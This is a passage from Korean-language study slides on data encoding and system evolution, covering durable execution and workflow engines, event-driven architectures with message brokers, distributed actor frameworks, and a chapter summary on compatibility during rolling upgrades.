- HTTP **Accept 헤더**에 버전 표시
- **API 키로 클라이언트를 식별하는 서비스** — API 키로 서로 다른 버전 제공

---

## 슬라이드 37. Durable Execution과 Workflow (2-3. Durable Execution and Workflows)

서비스 기반 아키텍처는 정의상 애플리케이션의 서로 다른 부분을 담당하는 **여러 서비스**로 구성됩니다.

### 결제 시스템 예시

결제 시스템을 생각해보면, 단일 결제 처리를 위해 여러 서비스 호출이 필요합니다.

```
결제 처리 서비스
  → 사기 탐지 서비스 호출 (사기 확인)
  → 신용카드 서비스 호출 (카드에서 출금)
  → 은행 서비스 호출   (출금된 자금 입금)
```

### Workflow란?

- 위와 같은 일련의 단계를 **워크플로**라 합니다.
- 각 단계 = **태스크(task)**
- 워크플로는 보통 **태스크들의 그래프**로 정의됩니다.
- 워크플로 정의는 범용 프로그래밍 언어, DSL, BPEL(Business Process Execution Language) 등으로 작성될 수 있습니다.
- 워크플로 엔진마다 태스크(task)를 부르는 명칭이 조금씩 다릅니다.

### 워크플로 엔진의 결정 사항

워크플로는 **워크플로 엔진**에 의해 실행됩니다. 엔진은 다음을 결정합니다:

- 각 태스크를 **언제, 어느 머신**에서 실행할지
- 태스크 **실패 시** 어떻게 할지
- 몇 개의 태스크를 **병렬 실행** 허용할지

### 워크플로 엔진의 구성

- **오케스트레이터 (orchestrator)** — 태스크 스케줄링 담당
- **익스큐터 (executor)** — 태스크 실행 담당

워크플로의 실행은 다음 시점에 실행될 수 있습니다:
- 시간 기반 스케줄
- 외부 소스 (웹 서비스, 인간 등)

### 워크플로 엔진의 종류

다양한 종류의 워크플로 엔진이 있습니다.

- **데이터 시스템 연동** — 예) Airflow, Dagster, Prefect
  - 용도: ETL 태스크 오케스트레이션
- **그래픽 표기 제공** — 예) Camunda, Orkes
  - 용도: 비엔지니어도 BPMN(Business Process Model and Notation)으로 워크플로 정의 가능
- **지속 실행 제공** — 예) Temporal, Restate
  - 용도: **durable execution**

---

## 슬라이드 38. Durable Execution 원리

### Durable Execution (지속 실행)이란?

**지속 실행 프레임워크**는 트랜잭션성이 필요한 서비스 기반 아키텍처를 구축하는 인기 있는 방법입니다.

### 문제 상황

- 각 결제를 **정확히 한 번(exactly once)** 처리하고 싶습니다.
- 워크플로 실행 중 실패하면 → **신용카드는 청구됐는데 은행 입금은 안 되는** 상황이 발생합니다.
- 서비스 기반(service-based) 아키텍처에서는 두 태스크를 단순히 하나의 DB 트랜잭션으로 감쌀 수 없습니다.
- 심지어 통제 권한이 없는 **서드파티 결제 게이트웨이**와 상호작용할 수도 있습니다.

### 해결 방법 — 정확히 한 번 처리

**정확히 한 번(exactly once)** 처리를 제공하는 것입니다.

- 태스크가 실패하면,
- 프레임워크가 태스크를 재실행하되, **실패 전에 성공적으로 수행한 호출이나 상태 변경은 건너뜁니다** → 해당 호출을 하는 척하면서 이전의 호출 결과를 반환합니다.

이런 동작이 가능한 이유는, 지속 실행 프레임워크가 모든 RPC 및 상태 변경을 **WAL(write-ahead log)** 에 기록하기 때문입니다.

### 핵심 비유

WAL은 *"이미 처리한 단계의 영수증"* 입니다. 재실행할 때 영수증이 있는 단계는 건너뛰고 다음 단계부터 다시 시도합니다.

---

## 슬라이드 39. 애니메이션 · Durable Execution 재실행

결제 워크플로가 3번째 단계에서 실패한다고 가정했을 때, 재실행 시 어떻게 진행되는지 단계별로 시각화한 슬라이드입니다.

색상 의미:
- **파란색** — 완료
- **노란색** — 실행 중
- **빨간색** — 실패
- **회색 점선** — WAL 영수증으로 건너뜀

---

## 슬라이드 40. Durable Execution의 도전 과제

Temporal 같은 지속 실행 프레임워크에도 어려움이 있습니다.

### ① 멱등성 요구

- 결제 게이트웨이 같은 서드파티 서비스가 **멱등(idempotent)** 한 API를 제공해야 합니다.
- 같은 요청을 두 번 보내도 한 번 보낸 것과 동일한 결과여야 합니다.

### ② 코드 변경의 취약성 (중요)

- 지속 실행 프레임워크는 각 RPC 호출을 **순서대로 기록**합니다 → 따라서 재실행 시 **같은 RPC 호출 순서**를 기대합니다.
- 위와 같은 이유로 **코드 변경에 취약**해집니다 (단순 호출 순서만 바꿔도 전체 동작에 문제가 생길 수 있습니다).
- **안전한 방법** — 기존 워크플로 코드를 수정하는 대신, 새 버전 코드를 별도로 배포합니다 (재실행을 위한 옛 버전 코드 유지).

### ③ 결정론(determinism) 요구

- 지속 실행 프레임워크는 **결정론적 재생**을 기대합니다 (같은 입력에 대한 같은 출력을 기대).
- 따라서 **난수 생성기, 시계 호출** 같은 비결정론적 코드가 문제가 됩니다.
- 이런 비결정론적 코드가 존재하는지 탐지하는 **정적 분석 도구**도 제공됩니다 (예: Temporal의 Workflow Check).

### 요점

*"그냥 다시 돌리면 된다"* 는 강력한 보장 뒤에는, **멱등성·코드 안정성·결정론**이라는 세 가지 규율이 필요합니다.

---

## 슬라이드 41. 이벤트 기반 아키텍처 (2-4. Event-Driven Architectures)

마지막 데이터플로 방식은 **이벤트 기반 아키텍처(event-driven architecture)** 입니다.

이벤트 기반 아키텍처에서 요청은 **이벤트(event)** 또는 **메시지(message)** 라 불립니다.

### RPC와의 핵심 차이

- 송신자가 수신자의 이벤트 처리를 **기다리지 않습니다**.
- 이벤트는 직접 네트워크 연결로 보내지 않고 **메시지 브로커(message broker)** 라는 중개자를 거칩니다.

### 흐름

송신자(Producer) → 메시지 브로커 → 수신자(Consumer)

### 메시지 브로커의 장점 (RPC 대비)

- **버퍼 역할** — 수신자 서비스가 사용 불가일 때 완충 작용을 하여 시스템 신뢰성 향상
- **자동 재전달** — 메시지 자동 재전달이 가능하여 손실 방지
- **서비스 디스커버리 불필요** — 송신자가 수신자를 찾지 않아도 됨
- **다중 수신자** — 같은 메시지를 여러 수신자에게 전송 가능
- **논리적 분리 (decoupling)** — 송신자는 발행, 수신자는 구독만 하면 됨 (서로 독립적)

### 비동기성

송신자는 메시지 전달을 기다리지 않습니다. **메시지를 보내고 잊습니다.**

---

## 슬라이드 42. 메시지 브로커 (Message brokers)

### 시대별로 시장을 지배하던 브로커들

- **과거 (상업용)** — TIBCO, IBM WebSphere, webMethods ...
- **이후 (오픈소스)** — RabbitMQ, ActiveMQ, Apache Kafka ...
- **최근 (클라우드 서비스)** — Amazon Kinesis, Azure Service Bus, Google Cloud Pub/Sub ...

### 자주 사용되는 메시지 분배 패턴

- **큐 (Queue)** — 한 프로세스가 큐에 메시지 추가 → 소비자가 받음 (소비자가 여럿이면 그중 **하나**만 받음).
- **토픽 (Topic)** — 한 프로세스가 토픽에 메시지 발행 → 브로커가 **모든 구독자**에게 전달.

### 인코딩과 호환성

메시지 브로커는 특정 데이터 모델을 강제하지 않습니다 → **어떤 인코딩 형식도 사용 가능**합니다.

흔한 형식으로는:
- **Protocol Buffers, Avro, JSON + 브로커 옆에 Schema Registry** 배포 — 유효한 스키마 버전 저장 및 호환성 검사
- **AsyncAPI** (OpenAPI의 메시징 버전)로 메시지 스키마 명세 가능

### 메시지 내구성

- 대부분의 브로커가 메시지를 **디스크에 기록**합니다 → 메시지 손실 방지
- 많은 브로커는 메시지가 소비된 후 메시지를 **자동 삭제**합니다.
- 몇몇 브로커는 메시지를 **무기한 저장**하도록 설정 가능합니다.

### 주의

컨슈머가 만약 다른 토픽으로 메시지를 재발행한다면, 앞에서 봤던 데이터베이스 맥락에서와 같이 **알 수 없는 필드를 보존**하도록 주의해야 합니다.

---

## 슬라이드 43. 분산 액터 프레임워크 (Distributed actor frameworks)

### Actor model이란?

단일 프로세스 내 동시성을 위한 프로그래밍 모델입니다.

- 스레드를 직접 다루지 않고 로직을 **액터(actor)** 에 캡슐화합니다 (race condition, locking, deadlock 문제 회피).
- 각 액터는 **로컬 상태**를 가질 수 있고 **비동기 메시지**로 다른 액터와 통신합니다.
- 메시지 전달은 **보장되지 않습니다** (메시지 손실 가능).

### Distributed Actor Frameworks (분산 액터 프레임워크)란?

액터 모델로 애플리케이션을 **여러 노드에 걸쳐 확장**합니다. 송신자/수신자가 같은 노드든 다른 노드든 **동일한 메시지 전달 메커니즘**을 사용합니다.

서로 다른 노드라면 메시지가 **투명하게** 인코딩되어 → 네트워크 전송 → 디코딩됩니다.

여기서 *"투명하다"* 는 **개발자가 그 과정을 직접 신경 쓰지 않아도 알아서 처리된다**는 의미입니다 (프레임워크가 처리합니다).

대표적으로 **Akka, Orleans, Erlang/OTP** 등이 있습니다.

### Location Transparency (위치 투명성)

위치 투명성은 RPC보다 actor model에서 더 잘 동작합니다.

여기서 위치 투명성이란, **메시지를 보내는 쪽은 받는 쪽이 같은 머신이든 다른 머신이든 신경 쓸 필요 없이 코드가 동일하게 동작하는 것**을 의미합니다.

그래서 RPC보다 actor model이 위치 투명성이 더 나은 이유는:
- 액터 모델에서는 로컬과 원격 통신 사이의 **근본적 불일치가 적습니다**.
- 액터 모델에서는 **로컬을 원격처럼 취급**하므로 간극이 적습니다 — RPC 근본 문제를 우회합니다.

### 호환성 고려는 여전히 필요

분산 액터 프레임워크는 본질적으로 message broker와 actor model을 하나로 통합한 것입니다.

만약 액터 기반 애플리케이션에서 **롤링 업그레이드**를 하려고 한다면, 상위/하위 호환성을 걱정해야 합니다. → 새 버전 노드가 옛 버전 노드로(또는 그 반대로) 메시지를 보낼 수 있기 때문입니다.

---

## 슬라이드 44. 요약 (3. Summary)

```text
변화는 필연 (헤라클레이토스)
        ↓
진화 가능성을 위해 롤링 업그레이드 필요
        ↓
→ 옛/새 버전 코드가 반드시 공존
        ↓
→ 모든 데이터에 양방향 호환성 필수
   (하위: 새 코드가 옛 데이터 / 상위: 옛 코드가 새 데이터)
        ↓
→ 그 호환성을 어떤 인코딩으로 달성하나?
   언어 내장(❌) / 텍스트(△·보편) / 이진 스키마(✅·균형)
        ↓
→ 어떤 데이터플로에서든 동일하게 적용
   DB / RPC·REST / 이벤트(브로커·액터)
        ↓
결론: 약간의 주의로 충분히 달성 가능. 자주 배포하라.
```

### 기억할 만한 내용

**① 인코딩은 아키텍처 결정이다**
- 바이트를 어떻게 표현하느냐를 정하는 것이 시스템을 어떻게 진화시킬지 결정합니다.

**② 버전 공존은 예외가 아닌 기본 가정이다**
- 옛 코드와 새 코드는 항상 공존하며, 양방향 호환성은 선택이 아닌 필수입니다.

**③ 누가 인코딩하고 누가 디코딩하는가?**
- DB, 서비스, 이벤트 각 데이터플로에서 누가 인코딩하고 누가 디코딩하는지가 다를 뿐, 어디에서든 호환성 문제는 존재합니다.

**④ 해결은 가능하다**
- 적절한 인코딩(특히 스키마 기반)과 약간의 규율로 타협과 해결이 가능합니다.

---

## 슬라이드 45. 끝

**Encoding & Evolution** — End of Chapter 5

> 약간의 주의를 기울이면, 상위/하위 호환성과 롤링 업그레이드는 충분히 달성 가능합니다.
>
> 여러분 애플리케이션의 진화가 빠르고, 배포가 잦기를.
> *(May your application's evolution be rapid and your deployments be frequent.)*
